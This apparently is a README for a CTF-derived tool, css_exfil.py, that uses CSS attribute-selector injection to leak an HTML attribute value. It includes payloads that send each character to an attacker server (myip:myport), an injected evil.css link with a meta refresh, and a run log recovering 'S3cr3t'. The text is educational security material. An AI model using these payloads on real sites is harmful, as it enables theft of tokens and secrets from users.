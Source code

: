 # CSS Exfil

## Concept
This is inspired by a web challenge called "Free as is Freedom" that was proposed in the 2019 [X-MAS CTF](https://xmas.htsp.ro/home). In this challenge you were able to inject an arbitrary string into a document that the victim would then load in a browser. It looks like a traditionnal XSS challenge, except in this case the CSP doesn't allow you to run javascript and there is no way around it. Instead, the idea is to exfiltrate the value of an HTML attribute using [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).

Let's say you want to exfiltrate the value of the `value` attribute:
```html
<input type="text" id="name" value="S3cr3t">
```
What you need to do is inject a bunch of [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), each matching a value starting with a different character:
```CSS
input#name[value^="a"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="b"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S"] { background: url("http://myip:myport/reveal?c=S"); }
...
```
It can be done either by injecting the payload above directly into the victim's document, or by injecting a link to your own web server, which will respond with the same payload:
```HTML
<link rel="stylesheet" href="http://myip:myport/evil.css">
```
Only one the CSS selectors will match, and it will trigger a `GET` request to your server to load the corresponding background image. In this case, you will receive the following request:
```
GET /reveal?c=S HTTP/1.1
...
```
You've read the first character. You can repeat the process to read the second character using this payload:
```CSS
input#name[value^="Sa"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="Sb"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S3"] { background: url("http://myip:myport/reveal?c=S"); }
...
```
# The Script
The `css_exfil.py` script automates this process. It uses [Flask](https://palletsprojects.com/p/flask/) to serve the payloads and retrieve the exfiltrated characters. A request to `/evil.css` returns the set of CSS attribute selectors that is used to reveal the next character. A request to `/reveal?c=x` (made to retrieve the background image) returns a 404 error and adds `x` to the exfiltrated secret. It two consecutive requests are made to the `/evil.css` URL with no `/reveal` request in between then it means the last set of CSS attribute selectors haven't matched anything, and the secret has been read completely.

For this to work, we need the victim to make repeated requests to `evil.css`. It can be done by adding a `refresh` to the injected payload:
```html
<link rel="stylesheet" href="http://myip:myport/evil.css">
<meta http-equiv="refresh" content="1">
```
The script is run as follows:
```
$ ./css_exfil.py -l $myip:$myport -s 'input#name' -a value
 * Serving Flask app "css_exfil" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8080/ (Press CTRL+C to quit)
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /reveal?c=S HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /reveal?c=c HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /reveal?c=r HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /reveal?c=t HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:44] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:45] "GET /evil.css HTTP/1.1" 200 -
S3cr3t
```
## Links
[Stealing Data With CSS: Attack and Defense](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)

